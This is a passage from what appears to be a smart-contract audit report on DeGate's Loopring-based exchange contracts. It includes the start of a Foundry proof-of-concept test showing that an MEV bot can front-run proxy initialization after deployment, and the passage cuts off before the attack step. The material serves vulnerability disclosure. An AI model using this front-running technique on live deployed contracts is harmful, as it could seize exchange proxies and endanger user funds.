 https://github.com/degatedev/protocols/blob/degate_mainnet/packages/loopring_v3/contracts/core/impl/DefaultDepositContract.sol#L54-L65

Deployment script:

https://github.com/degatedev/protocols/blob/degate_mainnet/packages/loopring_v3/migrations/8_deploy_exchange_v3.js
        
## Proof of concept
## PoC
Please copy/paste the code below into a file in the test directory of a foundry project called `ExchangeFrontrunTest.sol`

Please run the test with a fork of the mainnet
`forge test --fork-url {YOU_RPC_PROVIDER} --match-test test_FrontrunDeployer -vv`
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;
pragma abicoder v2;

import {Test, console} from "forge-std/Test.sol";
import "src/core/impl/ExchangeV3.sol";
import "src/core/impl/DefaultDepositContract.sol";
import "src/thirdparty/proxies/OwnedUpgradabilityProxy.sol";

contract ExchangeFrontrunTest is Test {
    // variable to hold implementation contract of ExchangeV3
    ExchangeV3 public exchange;

    // variable to hold implementation contract of DefaultDepositContract
    DefaultDepositContract public deposit;

    address deployer = makeAddr("deployer");
    address mevbot = makeAddr("mevbot");

    // variable to hold proxy contract of ExchangeV3
    OwnedUpgradabilityProxy proxy;
    // variable to hold proxy contract of DefaultDepositContract
    OwnedUpgradabilityProxy DepositProxy;


    function setUp() public {
        // deploy implementation and proxies as the correct deployer
        vm.startPrank(deployer);
        exchange = new ExchangeV3();
        deposit = new DefaultDepositContract();
        proxy = new OwnedUpgradabilityProxy();
        DepositProxy = new OwnedUpgradabilityProxy();
        proxy.upgradeTo(address(exchange));
        DepositProxy.upgradeTo(address(deposit));
        vm.stopPrank();
        
    }

    function test_FrontrunDeployer() public {
        //Just for information output the deployer and mevbot addresses
        console.log("[i] The address of the deployer is :",deployer);
        console.log("[i] The address of the mevbot is :",mevbot);
        // Retrieve the current owner of the ExchangeV3 proxy after the deployment
        (bool success,bytes memory callresp) = address(proxy).call(abi.encodeWithSignature("owner()"));
        address current = abi.decode(callresp,(address));
        console.log("[i] Owner of ExhangeV3 proxy directly after deployment :",current);
```